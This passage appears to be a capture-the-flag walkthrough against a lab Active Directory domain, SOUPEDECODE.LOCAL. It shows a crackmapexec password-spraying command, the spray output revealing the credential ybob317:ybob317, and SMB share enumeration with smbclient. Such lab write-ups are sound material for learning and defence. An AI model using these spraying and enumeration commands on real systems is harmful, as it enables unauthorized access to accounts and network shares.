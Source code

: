 ```
file_svc
charlie
qethan32
khenry33
sjudy34
rrachel35
caiden36
xbella37
smark38
zximena448
fmike40
yeli41
knina42
..................<REST_OF_USERS>.........................................
```
# PASSWORD SPRAYING
Let's perform password spraying against these accounts.
```bash
crackmapexec smb 10.0.4.17 -u users.txt -p users.txt --continue-on-success --no-bruteforce
```

Info:
```
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\icody21:icody21 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\ftom22:ftom22 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\ijake23:ijake23 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\rpenny24:rpenny24 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\jiris25:jiris25 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\colivia26:colivia26 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\pyvonne27:pyvonne27 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [-] SOUPEDECODE.LOCAL\zfrank28:zfrank28 STATUS_LOGON_FAILURE 
SMB         10.0.4.17       445    DC01             [+] SOUPEDECODE.LOCAL\ybob317:ybob317
```
We successfully find credentials for `ybob317` : `ybob317`.

# SMB with user ybob317

```bash
smbclient -L //SOUPEDECODE.LOCAL/ -U ybob317
```
Info:
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to SOUPEDECODE.LOCAL failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```